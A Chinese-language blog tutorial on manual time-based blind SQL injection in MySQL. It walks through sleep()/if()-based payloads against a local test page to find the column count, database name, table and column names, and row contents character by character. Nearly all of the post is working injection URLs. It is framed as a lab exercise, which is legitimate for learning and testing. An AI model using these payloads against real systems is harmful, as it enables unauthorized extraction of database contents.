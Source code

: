 ```yaml
---
title: Mysql手工盲注(延时注入)
date: 2018-05-13 11:19:25
tags:
	- Mysql
	- 渗透测试
	- sql注入
	- hack
	- 盲注
categories: 渗透测试
---
```


![](http://p3ek8hcdl.bkt.clouddn.com/image/SQLinject.jpg)<!-- more -->
# Mysql手工盲注(延时注入)

盲注的核心是靠 if 判断来注入
```
length(xxxxx) 函数是统计字符串的长度

mid(str,1,3) 字符串截取

ORD() 转换成ascii码

if (条件,True,False);

sleep(n)

```
### 判断是否存在注入
```
http://127.0.0.1/sql.php?id=1
```
![](http://p3ek8hcdl.bkt.clouddn.com/image/f3cc1490325163.jpg)
```
http://127.0.0.1/sql.php?id=1%20or%20sleep(2)
```
![](http://p3ek8hcdl.bkt.clouddn.com/image/15601490325259.jpg)

### 暴当前的表有多少个字段：
```

http://127.0.0.1/sql.php?id=1%20union%20select%20sleep(2)        #请求时间不到一秒 说明不是1个字段

http://127.0.0.1/sql.php?id=1%20union%20select%201,sleep(2)        #请求时间不到一秒 说明不是2个字段

http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(2)        #请求时间是2秒 说明是3个字段
```

### 获取数据库名长度：
```
http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20length(database())=1),5,0))   #请求时间不到五秒 说明数据库名长度不是1

一位一位试，中间过程省略
http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20length(database())=5),5,0))   #请求时间是五秒 说明数据库名长度是5
```
![](http://p3ek8hcdl.bkt.clouddn.com/image/799b1490326149.jpg)

### 获取数据库名：
```
http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),1,1)=%22a%22),5,0))     #请求时间不到五秒 说明数据库名第一位不是a

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),1,1)=%22b%22),5,0))      #请求时间不到五秒 说明数据库名第一位不是b

以此类推。。。。

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),1,1)=%22s%22),5,0))        #请求时间是五秒 说明数据库名第一位是s

然后慢慢猜解到第5位

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),2,1)=%22q%22),5,0))        #请求时间是五秒 说明数据库名第二位是q

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),3,1)=%22l%22),5,0))        #请求时间是五秒 说明数据库名第三位是l

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),4,1)=%22i%22),5,0))        #请求时间是五秒 说明数据库名第四位是i

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((select%20mid(database(),5,1)=%22n%22),5,0))        #请求时间是五秒 说明数据库名第五位是n

这样就获取到数据库名是sqlin
```

```
当然了 这方法注入比较慢 比如有些数据库是特殊符号呢？那怎么办？一个一个符号猜解吗？
采用ORD函数进行ascii码来判断会快点

比如：

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((ORD((select%20mid(database(),1,1)))%3C120),5,0))   #小于120请求时间是五秒

http://127.0.0.1/sql.php?id=1%20and%20sleep(if((ORD((select%20mid(database(),1,1)))%3C110),5,0))   #小于110请求时间不是五秒

说明数据库名第一位的ascii码值在110~120之间   
http://127.0.0.1/sql.php?id=1%20and%20sleep(if((ORD((select%20mid(database(),1,1)))=115),5,0))        #等于115请求时间是五秒
```
![](http://p3ek8hcdl.bkt.clouddn.com/image/d0091490327618.jpg)
115对应的是s   跟我们获取到的sqlin一样
其他四位也是一样的方法

### 获取表名长度：
```
http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if(length(table_name)=4,5,0))%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1         #请求时间是五秒 说明表名长度是4
```

### 获取表名：
```
http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if((mid(table_name,1,1)=%22n%22),5,0))%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1         #请求时间是五秒 说明表名第一位是n

http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if((mid(table_name,2,1)=%22e%22),5,0))%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1         #请求时间是五秒 说明表名第一位是e

http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if((mid(table_name,3,1)=%22w%22),5,0))%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1         #请求时间是五秒 说明表名第一位是w

http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if((mid(table_name,4,1)=%22s%22),5,0))%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1         #请求时间是五秒 说明表名第一位是s
```

### 获取表中的第一个字段长度：
```
http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if(length(column_name)=2,5,0))%20from%20information_schema.columns%20where%20table_name=0x6E657773%20limit%200,1             #请求时间是五秒 说明表名第一个字段长度是2
```

### 获取表中的第一个字段名：
```
http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if(mid(column_name,1,1)=%22i%22,5,0))%20from%20information_schema.columns%20where%20table_name=0x6E657773%20limit%200,1            #请求时间是五秒 说明表名第一个字段名第一位是i

http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if(mid(column_name,1,1)=%22d%22,5,0))%20from%20information_schema.columns%20where%20table_name=0x6E657773%20limit%200,1            #请求时间是五秒 说明表名第一个字段名第二位是d

得出表名第一个字段名是id
```
### 获取news表中id字段下的内容：
先猜内容长度

```
http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if(length(id)=1,5,0))%20from%20news%20limit%200,1       #请求时间是五秒 说明内容长度是1

http://127.0.0.1/sql.php?id=1%20union%20select%201,2,sleep(if(mid(id,1,1)=%221%22,5,0))%20from%20news%20limit%200,1       #请求时间是五秒 说明内容也是1
```

![](http://p3ek8hcdl.bkt.clouddn.com/image/032b1490329624.jpg)


### 补充
```
上面的语句查询其他表时会受到前面数据的影响
两个表admin，news
后面limit 0,1判断的就是第一个表admin   也就是猜第一位必须是a才返回true     后面limit 1,1的时候   猜第一位a和n都会返回true  其他false
```
查询其他表推荐语句
```
http://127.0.0.1/sqlin/sqltest.php?id=1%20and%20if((length((select%20table_name%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1))=4),sleep(5),0)
感觉应该是查询语句和sleep执行顺序的问题
```
获取其他同理

有错误的地方欢迎指正，共同进步。